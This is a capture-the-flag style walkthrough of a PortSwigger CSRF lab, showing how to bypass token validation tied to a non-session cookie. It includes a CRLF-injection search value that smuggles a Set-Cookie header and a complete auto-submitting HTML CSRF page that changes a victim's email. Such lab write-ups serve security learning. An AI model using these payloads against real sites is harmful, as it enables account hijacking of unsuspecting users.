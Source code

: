 ## Welcome, my friend. Today we will start the [5. CSRF lab](https://portswigger.net/web-security/learning-paths/csrf/csrf-common-flaws-in-csrf-token-validation/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie) in ```portswigger```

### Let's play this lab:

![image](https://github.com/user-attachments/assets/e943f365-30c1-4828-8fbb-07c19bfc220b)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/789699db-cb37-4472-8bd7-e3099aa642f6)

#### We can log in to our account using the following credentials: ```wiener:peter```

![image](https://github.com/user-attachments/assets/993ebfbb-866c-465f-9cef-bdf523e1369d)

#### Let's update email to ```0xT0R@gmail.com```:

![image](https://github.com/user-attachments/assets/c6b7aee1-4974-43dc-b3a5-7231e5258615)

#### We need do this task but through our victim by CSRF, we should intercept this request of update email by burp suite.

![image](https://github.com/user-attachments/assets/2bf7ea9b-a105-4311-9d33-347c82a3cac0)

#### 400 Bad, Hmmm. We can log in to our account using the following credentials: ```carlos:montoya```

![image](https://github.com/user-attachments/assets/0cea3abe-c1d4-4e5c-ac84-379f5cb18725)

### Go to inspect or view page source and copy this csrf:

![image](https://github.com/user-attachments/assets/92f5fef5-af32-4cf1-97e2-65ba8cf5214b)



```
csrf=MIeMs4jmcp8TBV2HnSrUqf5DNoTPalgJ
```

#### And copy this ```csrfkey```:

![image](https://github.com/user-attachments/assets/381c3797-adec-400b-a828-800c43e0aee8)

```
csrfkey=KKuvlQPrwSbJ4IQ6aSUr7Q3F7M026hlL
```

### Now Go to wiener account and go to home page and search about ```hi``` in search paramater:

![image](https://github.com/user-attachments/assets/a265ed6e-0578-48f5-9f34-c4d89d0a5f41)

#### and intercept this request in burp suite:

![image](https://github.com/user-attachments/assets/d6a728d4-e704-402b-a49d-6ecdcffea042)

### Great, we discove ```LastSearchTerm``` paramater in set-cookie.

### Let's changed search value to:

```
/?search=hi%0d%0aSet-Cookie:%20csrfKey=KKuvlQPrwSbJ4IQ6aSUr7Q3F7M026hlL%3b%20SameSite=None
```

![image](https://github.com/user-attachments/assets/282830dd-d28a-4a2e-8292-246684f06095)

### Go to exploit server and paste this code:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5f00c903dee7db80d1865e00d10037.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hi1&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="MIeMs4jmcp8TBV2HnSrUqf5DNoTPalgJ" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a5f00c903dee7db80d1865e00d10037.web-security-academy.net/?search=hi%0d%0aSet-Cookie:%20csrfKey=KKuvlQPrwSbJ4IQ6aSUr7Q3F7M026hlL%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```


![image](https://github.com/user-attachments/assets/e690dc11-0024-4962-90cb-51f064072d6b)

![image](https://github.com/user-attachments/assets/75168ddd-aa6e-4b03-bb77-dd956d97d4ec)


-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/dab63e63-4abd-40e6-b60a-78617621f2b8" >
</p>

